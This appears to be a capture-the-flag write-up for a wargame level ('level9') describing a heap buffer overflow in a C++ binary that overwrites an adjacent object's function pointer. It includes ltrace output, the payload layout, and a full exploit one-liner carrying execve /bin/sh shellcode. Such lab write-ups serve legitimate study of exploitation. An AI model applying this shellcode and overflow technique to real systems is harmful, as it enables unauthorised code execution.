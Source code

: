 we can see from binary ninja that the program is probably cpp as the class `N` imply.
![code](./ressources/binja.png)
the end of main call the function pointer of B which is after the memcpy of the buffer in A.
we can overflow the buffer and overwrite the function pointer to execute our shellcode, by overwriting from A to B.

we can see in binary ninja that to execute the operator+, in assembly it actually dereference the first `N` two times : `return (**eax_1)(eax_1, eax)`.

it mean that our exploit needs to include it's own address twice, so that the first dereference point to the string, and the second point to itself, so that the shellcode is executed.
using `ltrace` we can see the 2 addresses of the classes and the call to memcpy giving us the buffer address:

```
_Znwj(108, 0xbffff3d4, 0xbffff3e0, 0xb7d79e55, 0xb7fed280)                         = 0x804a008
_Znwj(108, 5, 0xbffff3e0, 0xb7d79e55, 0xb7fed280)                                  = 0x804a078
memcpy(0x0804a00c, "test", 4)                                                      = 0x0804a00c
```

the difference between the two is 112 bytes, but the class is 108 bytes long, so there is 4 bytes of offset between the two.
the exploit will look like this:
`[own adress 4 bytes + shellcode 25 bytes + filler (108 - 4 - 25) 79 bytes long] + addr of the buffer 4 bytes`
the first part will be copied in the buffer + the 4 bytes separating the two classes, and the second part will overwrite the function pointer.

running it:
`./level9 $(python -c "print '\x0c\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 'i'*79 + '\x0c\xa0\x04\x08'")`
